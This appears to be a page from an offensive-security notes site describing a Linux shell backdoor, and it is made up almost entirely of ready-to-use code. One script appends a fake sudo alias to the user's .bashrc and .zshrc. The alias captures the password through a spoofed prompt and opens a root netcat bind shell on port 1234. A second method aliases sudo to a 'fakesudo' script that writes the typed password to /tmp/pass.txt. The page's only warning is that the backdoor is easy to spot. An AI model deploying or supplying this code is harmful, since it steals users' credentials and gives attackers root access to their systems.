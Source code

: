 # ⚠ nash\_rc Backdoor (Not OPSEC)

{% hint style="danger" %}
bash\_rc file is easily readable for the user and he backdoor can be easily detected
{% endhint %}

```
TMPNAME2=".systemd-private-b21245afee3b3274d4b2e2-systemd-timesyncd.service-IgCBE0"
cat << EOF > /tmp/$TMPNAME2
  alias sudo='locale=$(locale | grep LANG | cut -d= -f2 | cut -d_ -f1);if [ \$locale  = "en" ]; then echo -n "[sudo] password for \$USER: ";fi;if [ \$locale  = "fr" ]; then echo -n "[sudo] Mot de passe de \$USER: ";fi;read -s pwd;echo; unalias sudo; echo "\$pwd" | /usr/bin/sudo -S nohup nc -lvp 1234 -e /bin/bash > /dev/null && /usr/bin/sudo -S '
EOF
if [ -f ~/.bashrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.bashrc
fi
if [ -f ~/.zshrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.zshrc
fi
rm /tmp/$TMPNAME2
```

or add the following line inside its .bashrc file.

```
$ chmod u+x ~/.hidden/fakesudo
$ echo "alias sudo=~/.hidden/fakesudo" >> ~/.bashrc
```

and create the `fakesudo` script.

```
read -sp "[sudo] password for $USER: " sudopass
echo ""
sleep 2
echo "Sorry, try again."
echo $sudopass >> /tmp/pass.txt

/usr/bin/sudo $@
```

